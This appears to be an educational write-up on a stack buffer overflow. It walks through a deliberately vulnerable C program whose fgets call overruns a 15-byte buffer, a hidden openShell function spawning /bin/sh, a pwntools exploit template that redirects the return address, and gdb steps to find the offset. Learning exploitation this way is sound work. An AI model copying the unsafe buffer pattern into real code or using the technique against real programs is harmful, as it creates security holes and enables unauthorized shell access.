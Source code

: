 * Code:
```c
#include <stdio.h>
#include <stdlib.h>

void getName(){
	char name[15] = {0}; // !! Our buffer is only 15 characters... but: !!


	printf("What's your name? ");
	fgets(name, 100, stdin); // !! We are reading 100 characters despite only being able to store 15 characters !!
	printf("Cool name %s!", name);

}


void main(){
	getName();
}

void openShell(){
	system("/bin/sh");
}

```
* Decompiling in Ghidra, we get the following code for all the user defined functions:
```c
void getName(void){
  undefined8 local_17;
  undefined4 local_f;
  undefined2 local_b;
  undefined local_9;
  
  local_17 = 0;
  local_f = 0;
  local_b = 0;
  local_9 = 0;
  printf("What\'s your name? ");
  fgets((char *)&local_17,100,stdin);
  printf("Cool name %s!",&local_17);
  return;
}

void main(void){
  getName();
  return;
}


void openShell(void){
  system("/bin/sh");
  return;
}
```
* Take note that the `getName` function is calling `fgets` and taking in 100 characters, while our buffer is only of size 15.
	* Technically, this limits how much we can overwrite the stack (while `gets` would let us write as much as we want, but 100 bytes should be enough for what we want.

* Stack:
```
---------------------------
|   main Return Address   | ↓️  
---------------------------
|     main Saved RBP      | ↓
---------------------------
| getName Return Address  | ↓
---------------------------
|   getName Saved RBP     | ↓
---------------------------
| getName 'name' Variable | ↓
---------------------------
| openShell Return Address| ↓
---------------------------
|   openShell Saved RBP   | ↓
---------------------------
```
* Notice the stack grow downwards
	* Every stack frame always starts with the return address, then the frame pointer
	* The return address is where the computer goes at the end of the function


* First, we want to be able to make the program crash. If we can do that, we can make it crash how we want to make the program do something malicious.

# Writing the exploit
### Boilerplate exploit code
```python3
from pwn import *
p = process('./program.elf')
e = ELF('./program.elf')

offset = rbp - locationOfInput
addressToJumpTo = p64(e.symbols['openShell']) # p32 or p64 is based on if it is a 32 or 64 bit program. use `file` or `checksec` on binary to check

payload = b''
payload += b'A'*offset
payload += addressToJumpTo


p.sendline(payload)
p.interactive()
```
### Exploit process
* Preface: I highly suggest having [gef](https://gef.readthedocs.io/en/master/) installed for this. I will be using it.

1. Run `gdb buf1` to start the binary in a dynamic debugger
2. Run `disas main` to look at the main function to get the following output:
```bash
Dump of assembler code for function main:
   0x00000000004011a7 <+0>:	push   rbp
   0x00000000004011a8 <+1>:	mov    rbp,rsp
   0x00000000004011ab <+4>:	mov    eax,0x0
   0x00000000004011b0 <+9>:	call   0x401142 <getName>
   0x00000000004011b5 <+14>:	mov    eax,0x0
   0x00000000004011ba <+19>:	pop    rbp
   0x00000000004011bb <+20>:	ret    
End of assembler dump.

```
	* Here, we can see on offset <+9> from the main, there is a call to func `getName`
3. Disassemble `getName` with `disas getName` to get the following output:
```bash
Dump of assembler code for function getName:
   0x0000000000401142 <+0>:	push   rbp
   0x0000000000401143 <+1>:	mov    rbp,rsp
   0x0000000000401146 <+4>:	sub    rsp,0x10
   0x000000000040114a <+8>:	mov    QWORD PTR [rbp-0xf],0x0
   0x0000000000401152 <+16>:	mov    DWORD PTR [rbp-0x7],0x0
   0x0000000000401159 <+23>:	mov    WORD PTR [rbp-0x3],0x0
   0x000000000040115f <+29>:	mov    BYTE PTR [rbp-0x1],0x0
   0x0000000000401163 <+33>:	lea    rdi,[rip+0xe9a]        # 0x402004
   0x000000000040116a <+40>:	mov    eax,0x0
   0x000000000040116f <+45>:	call   0x401040 <printf@plt>
   0x0000000000401174 <+50>:	mov    rdx,QWORD PTR [rip+0x2ec5]        # 0x404040 <stdin@GLIBC_2.2.5>
   0x000000000040117b <+57>:	lea    rax,[rbp-0xf]
   0x000000000040117f <+61>:	mov    esi,0x64
   0x0000000000401184 <+66>:	mov    rdi,rax
   0x0000000000401187 <+69>:	call   0x401050 <fgets@plt>
   0x000000000040118c <+74>:	lea    rax,[rbp-0xf]
   0x0000000000401190 <+78>:	mov    rsi,rax
   0x0000000000401193 <+81>:	lea    rdi,[rip+0xe7d]        # 0x402017
   0x000000000040119a <+88>:	mov    eax,0x0
   0x000000000040119f <+93>:	call   0x401040 <printf@plt>
   0x00000000004011a4 <+98>:	nop
   0x00000000004011a5 <+99>:	leave  
   0x00000000004011a6 <+100>:	ret    
End of assembler dump.
```
4. Look for where we input into the buffer. We can see that it is calling `fgets` at offset <+69> from the main
5. We want to break immediately after the input to inspect the stack, so we can set a breakpoint at the offset right after the input with `b *getName + 74`
6. Run the binary in gdb with `r`
7. Input an 8-byte string. Typically we use all uppercase As, so I'm using `AAAAAAAA`
	* This should trigger our breakpoint
8. Now, we have to inspect the stack. We can first find the location of our input with `search-pattern AAAAAAAA`
	* This gives us the following:
```bash
[+] Searching 'AAAAAAAA' in memory
[+] In '[heap]'(0x405000-0x426000), permission=rw-
  0x4056b0 - 0x4056b8  →   "AAAAAAAA" 
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffdfd1 - 0x7fffffffdfd9  →   "AAAAAAAA" 
```
	* The start of the address of the string is `0x7fffffffdfd1` 

9. We can run `i f` to look at information on the current frame. We get the following:
```bash
Stack level 0, frame at 0x7fffffffdff0:
 rip = 0x40118c in getName; saved rip = 0x4011b5
 called by frame at 0x7fffffffe000
 Arglist at 0x7fffffffdfe0, args: 
 Locals at 0x7fffffffdfe0, Previous frame's sp is 0x7fffffffdff0
 Saved registers:
  rbp at 0x7fffffffdfe0, rip at 0x7fffffffdfe8
```
	* The rip is at `0x7fffffffdfe8`
10. We can get our offset by subtracting these: `0x7fffffffdfe8 - 0x7fffffffdfd1`, which is 23 bytes


